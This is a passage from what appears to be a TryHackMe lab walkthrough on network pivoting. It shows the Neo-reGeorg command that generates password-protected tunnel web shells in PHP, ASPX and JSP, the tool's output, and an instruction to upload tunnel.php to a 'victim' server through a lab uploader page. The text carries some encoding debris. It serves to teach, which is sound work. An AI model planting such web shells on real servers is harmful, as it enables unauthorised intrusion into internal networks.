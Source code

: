 Neo-reGeorg Path on AttackBox  

```markup
root@AttackBox:/opt/Neo-reGeorg#
```

Next, we need to generate an encrypted client file to upload it to the victim web server as follows,

Generating encrypted Tunneling Clients with a selected password!  

```markup
root@AttackBox:/opt/Neo-reGeorg# python3 neoreg.py generate -k thm                                                                                                                                                                              


          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 3.8.0
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/neoreg

    [+] Mkdir a directory: neoreg_servers
    [+] Create neoreg server files:
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel_compatibility.jsp
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel_compatibility.jspx
       => neoreg_servers/tunnel.php
```

The previous command generates encrypted Tunneling clients withÂ thmÂ key in theÂ neoreg_servers/Â directory. Note that there are various extensions available, includingÂ PHP, ASPX, JSP, etc. In our scenario, we will be uploading theÂ tunnel.phpÂ file via the uploader machine. To access the uploader machine, you can visitÂ the following URL:Â http://10.10.39.16/uploaderÂ orÂ https://10-10-39-16.p.thmlabs.com/uploaderÂ without the need for aÂ VPN.
